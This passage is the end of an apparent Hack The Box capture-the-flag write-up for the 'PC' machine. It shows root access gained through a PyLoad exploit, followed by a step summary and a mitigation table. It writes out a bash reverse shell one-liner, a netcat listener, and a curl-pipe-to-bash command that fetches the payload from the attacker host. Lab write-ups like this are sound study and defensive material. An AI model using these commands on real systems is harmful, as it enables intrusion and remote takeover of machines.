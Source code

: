 We'll edit the `rev.shell` script and add the following bash one liner:

`bash -i >& /dev/tcp/10.10.14.36/9001 0>&1`

Now we will do the following:

- Make the script executable `chmod +x rev.shell`
- Host the file via simple HTTP server `python3 -m http.server 8080`
- Set up our netcat listener `nc -lvnp 9001`

Now just modify the exploit to include the curl command `python3 51532.py -u http://localhost:8000 -c "curl http://10.10.14.36:8080/revshell.sh | bash"`

![Root](/assets/images/HTB%20-%20PC/Root.png)

GG, we've rooted PC!

## Summary

1. Initial enumerating discoverd gRPC
2. Utilized grpcurl to interact with gRPC service
3. Discoverd service SimpleApp interacting with an SQLite database
4. Found & exploited the gRPC service via SQLi
5. SQLi provided SSH credentials
6. SSH'd into machine with discovered username & password
7. Discovered local web service PyLoad running on port 8000
8. Used SSH port forwarding to access the local PyLoad service
9. Utilized searchsploit to discover CVE related to the PyLoad service
10. Created malicious bash script for a reverse shell
11. Exploited PyLoad vulnerability
12. Obtained a reverse shell with root privileges


## Vulnerabilities & Mitigation

| Vulnerability                              | Mitigation                                                        |
|--------------------------------------------|-
| Lack of Input Validation in gRPC Methods   | Validate and sanitize all user inputs. Implement strict input validation. |
| SQL Injection in gRPC Service              | Use prepared statements and parameterized queries. Validate and sanitize inputs. |
| Default or Weak SSH Credentials            | Enforce strong, unique passwords! |
| Vulnerable PyLoad Service                  | Keep all software up to date.|
| Lack of Proper Input Sanitization in PyLoad| Validate and sanitize all user inputs. Implement proper input handling in application code. |
| Local Service Access via SSH Port Forwarding (Lack of Detection) | Implement monitoring for SSH port forwarding activities. Use SSH logs, network traffic analysis, and intrusion detection systems (IDS) to detect and alert on unauthorized port forwarding. |
| Lack of Principle of Least Privilege       | Ensure services run with the minimum necessary privileges. Use proper user and permission management. |


### Remediation References

- [Google Cloud - Secure gRPC Services](https://cloud.google.com/blog/products/application-development/add-security-to-grpc-services-with-traffic-director)
- [Second-Order SQL Injection](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)
- [OWASP - Security Principles](https://owasp.org/www-project-developer-guide/draft/foundations/security_principles/)
